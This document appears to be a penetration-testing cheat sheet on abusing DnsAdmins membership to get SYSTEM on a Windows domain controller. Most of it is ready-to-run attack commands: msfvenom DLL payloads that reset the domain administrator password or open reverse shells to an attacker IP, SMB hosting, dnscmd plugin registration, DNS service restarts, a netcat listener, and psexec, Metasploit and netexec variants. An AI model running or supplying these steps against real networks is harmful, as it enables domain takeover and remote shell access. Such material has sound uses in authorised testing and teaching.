 ### A user that is a member of the DnsAdmins group, has the ability to use dnscmd.exe to specify a plugin DLL that should be loaded by the DNS service.

### We can create our own malicious .dll payload with msfvenom to escalate privileges

### Steps:

## Enumeration

    Get-NetGroupMember -GroupName "DNSAdmins"

    Get-ADGroupMember -Identity DNSAdmins

## Exploitation

#### 1) Craft malicious dll file

    msfvenom -p windows/x64/exec cmd='net user administrator P@55w0rd123! /domain' -f dll > pwn.dll

#### 2) Host the file remotely

    sudo smbserver.py share ./ 

#### 3) Set the remote DLL path into the windows registry

    cmd /c dnscmd localhost /config /serverlevelplugindll \\OUR_IP\share\pwn.dll 

#### 4) Restart the DNS service to execute our malicious dll

    sc.exe stop dns

#### 5) 

    sc.exe start dns 

#### 6) 

    sudo psexec.py DOMAIN.LOCAL/administrator@DC_IP

#### 7) PWN3D!

## Alternate Method: DNSServer module

    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All

    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"

    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose

### Check for successful previous command

    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

## OR

### 1) Create reverse shell payload

    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=80 -f dll > exploit.dll

### 2) Once the malicious DLL has been uploaded to the target the following command can be used to register the DLL.

    dnscmd.exe <DCName> /config /serverlevelplugindll <PathToDLL>
    dnscmd.exe dc01 /config /serverlevelplugindll C:\Users\Moe\Documents\exploit.dll

### 3) Setu a listener on attacker machine

    sudo nc -lvp 80

### 4) From here stopping the DNS service and starting it again will spawn a SYSTEM shell to the netcat listener.

    sc.exe stop dns
    sc.exe start DNS

## Alternate Method: Metasploit

    use exploit/windows/local/dnsadmin_serverlevelplugindll

## Alternate Method: Netexec and python

#### Generate the DLL

    msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=1234 -f dll > rev.dll

#### On the DNS machine, modify the server conf

    nxc smb <target> -u user1 -p password -X "dnscmd.exe /config /serverlevelplugindll \\<share_SMB>\rev.dll"

#### Restart DNS

    services.py 'domain.local'/'user1':'password'@<DNS_server> stop dns
    services.py 'domain.local'/'user1':'password'@<DNS_server> start dns
